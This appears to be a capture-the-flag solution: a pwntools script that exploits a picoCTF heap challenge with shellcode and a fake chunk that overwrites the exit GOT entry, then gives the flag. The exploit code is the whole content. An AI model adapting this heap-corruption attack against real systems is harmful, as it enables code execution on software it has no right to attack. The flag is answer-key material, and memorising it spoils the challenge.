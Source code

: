 ```python

shellcode = shellcode.ljust(0x2a0-0x4)
shellcode += p32(0x49).ljust(0x48)
shellcode += p32(0x101)

sh.sendlineafter('fullname\n', shellcode)


fake_chunk = p32(0x101)
fake_chunk += p32(exit_got-12) 
fake_chunk += p32(leak+8)
fake_chunk = fake_chunk.ljust(0x100-0x4)+p32(0x101)

payload = 'a'*(0x100-4)+fake_chunk

sh.sendlineafter('lastname\n', payload)

sh.interactive()
```

flag: `picoCTF{a_s1mpl3_h3ap_69424381}`